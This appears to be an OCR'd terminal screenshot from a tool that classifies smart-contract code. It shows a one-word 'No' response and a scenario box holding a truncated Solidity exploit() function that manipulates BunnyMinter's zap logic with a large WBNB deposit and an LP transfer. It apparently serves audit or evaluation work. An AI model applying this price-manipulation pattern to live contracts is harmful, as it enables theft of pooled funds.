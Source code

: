 │     }                                                                                                                                                                                                                                                 │
╰───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {"1": "No"}                                                                                                                                                                                                                                           │
╰───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                          │
│ Code:                                                                                                                                                                                                                                                 │
│     function exploit() public {                                                                                                                                                                                                                       │
│         uint256 wbnbAmount = IERC20(WBNB).balanceOf(address(this)) - 15_000e18;                                                                                                                                                                       │
│                                                                                                                                                                                                                                                       │
│         // Manipulate BunnyMinter._zapAssetsToBunnyBNB - deposit liquidity                                                                                                                                                                            │
│         IERC20(WBNB).approve(address(zap), type(uint256).max);                                                                                                                                                                                        │
│         zap.zapInToken(WBNB, 15_000e18, address(WBNBUSDTv2));                                                                                                                                                                                         │
│         uint256 attackerLPBalance = IERC20(address(WBNBUSDTv2)).balanceOf(                                                                                                                                                                            │
│             address(this)                                                                                                                                                                                                                             │
│         );                                                                                                                                                                                                                                            │
│         IERC20(address(WBNBUSDTv2)).transfer(                                                                                                                                                                                                         │
│             address(WBNBUSDTv2),                                                                                                                                                                                                                      │
│             attackerLPBalance                                                                                                                                                                                                                         │
│         );                                                                                                                                                                                                                                            │